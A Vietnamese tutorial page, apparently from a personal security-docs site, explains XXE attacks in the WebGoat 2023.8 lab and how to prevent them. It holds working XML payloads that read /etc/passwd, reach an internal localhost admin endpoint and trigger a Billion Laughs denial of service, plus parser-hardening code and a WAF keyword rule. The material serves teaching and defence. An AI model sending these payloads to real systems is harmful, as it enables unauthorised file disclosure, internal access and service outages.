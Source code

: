 ```yaml
---
title: 1.01 | XXE
slug: XXE-01
description: Bài viết này sẽ hướng dẫn cách tấn công XXE trên WebGoat 2023.8
image: https://tiennhm.github.io/img/docs/database.jpg
sidebar_position: 1
# sidebar_class_name: hidden
tags: 
    - web-security
    - webgoat
    - security-misconfiguration
    - xxe
    - webgoat-2023.8
keywords: [web-security, webgoat, security-misconfiguration, xxe, webgoat-2023.8]
enableComments: true # for Gisqus comments, set to true
draft: false # set to true to hide this post from the site
---
```


> 🛡 **XML External Entity (XXE) Attack**  

## 🔥 **1. Khái niệm**  
**XXE (XML External Entity Attack)** là một lỗ hổng bảo mật khi ứng dụng xử lý XML mà không vô hiệu hóa thực thể bên ngoài (external entity). Hacker có thể khai thác để:  
- Đọc file trên server  
- Rò rỉ thông tin nhạy cảm  
- Thực hiện Server-Side Request Forgery (SSRF)  
- Tấn công DoS  


## 🛠 **2. Cách thức hoạt động của XXE**  
Khi một XML parser cho phép external entity, hacker có thể chèn payload để truy xuất dữ liệu từ server.  

Ví dụ, một ứng dụng nhận XML từ user:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [  
    <!ENTITY xxe SYSTEM "file:///etc/passwd">  
]>
<user>
    <name>&xxe;</name>
</user>
```
Nếu server xử lý XML mà không tắt external entity, nó sẽ thay `&xxe;` bằng nội dung file `/etc/passwd`.


## 🚀 **3. Tấn công XXE**  
### **(1) Đọc file từ server**  
Gửi XML với entity trỏ đến file hệ thống:
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
    <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```
Nếu bị khai thác, response sẽ chứa nội dung file `/etc/passwd`.

### **(2) SSRF Attack (Tấn công dịch vụ nội bộ)**  
Dùng XXE để gửi request đến nội bộ hệ thống:
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://localhost/admin">
]>
<user>
    <name>&xxe;</name>
</user>
```
Nếu server có API nội bộ trên `localhost/admin`, hacker có thể khai thác nó.

### **(3) DoS Attack (Billion Laughs Attack)**  
Dùng recursion để tạo vô số entity gây crash server:
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
    <!ENTITY lol "LOL">
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;">
]>
<data>&lol3;</data>
```


## 🛡 **4. Cách phòng chống XXE**  
✅ **Vô hiệu hóa DTD & external entity trong XML parser**  
Trong Java:
```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```
Trong .NET:
```csharp
XmlReaderSettings settings = new XmlReaderSettings();
settings.DtdProcessing = DtdProcessing.Prohibit;
```

✅ **Sử dụng JSON thay vì XML**  
JSON không có entity nên an toàn hơn.

✅ **Giới hạn quyền đọc file trên server**  
Dùng `chroot`, SELinux hoặc AppArmor để giới hạn phạm vi đọc file.

✅ **Dùng WAF (Web Application Firewall)**  
Chặn payload chứa `<!ENTITY` hoặc `SYSTEM`.


